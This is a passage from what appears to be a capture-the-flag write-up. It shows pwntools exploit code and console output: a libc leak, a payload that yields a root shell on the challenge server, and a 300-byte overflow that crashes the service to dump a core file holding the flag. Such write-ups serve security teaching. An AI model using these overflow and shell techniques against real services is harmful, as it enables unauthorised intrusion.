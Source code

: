 I’ll add to the script to send this:

    
    
    r.recvuntil(b"me your name?\n > ")
    r.sendline(b"0xdf")
    r.recvuntil(b"else?\n > ")
    r.sendline(payload2)
    r.recvuntil(b"can do...\n")
    

Running gives a shell!

    
    
    oxdf@hacky$ python solve.py 
    [+] Opening connection to 152.96.15.5 on port 1337: Done
    [+] Leaked libc base:        00007fa9c8904000
    [*] Switching to interactive mode
    $ id
    uid=0(root) gid=0(root) groups=0(root)
    

### Get Flag

#### Generate Crash

I’ll add a bit to the start of my script to crash the server:

    
    
    # crash to create core dump
    r = remote(ip, 1337)
    r.recvuntil(b"(y/n)? ")
    r.sendline(b"y")
    r.recvuntil(b"i need?\n\n")
    lines = r.recvuntil(b"\n\n").splitlines()
    c = Counter(l[3:] for l in lines)
    r.recvuntil(b"How many red presents are needed?\n > ")
    r.sendline(str(c[b"red"]).encode())
    r.recvuntil(b"And how many yellow presents are needed?\n > ")
    r.sendline(str(c[b"yellow"]).encode())
    r.recvuntil(b"And how many blue presents are needed?\n > ")
    r.sendline(str(c[b"blue"]).encode())
    r.recvuntil(b"me your name?\n > ")
    r.sendline(b"HV")
    r.recvuntil(b"else?\n > ")
    r.sendline(b"A"*300)
    r.close()
    

Then the rest of the script gets a shell. There’s a crashdump in the system
root:

    
    
    oxdf@hacky$ python solve.py 
    [+] Opening connection to 152.96.15.5 on port 1337: Done
    [*] Closed connection to 152.96.15.5 port 1337
    [+] Opening connection to 152.96.15.5 on port 1337: Done
    [+] Leaked libc base:        00007fc41065a000
    [*] Switching to interactive mode
    $ ls
    Dockerfile
    bin
    boot
    core.8
    dev
    etc
    flag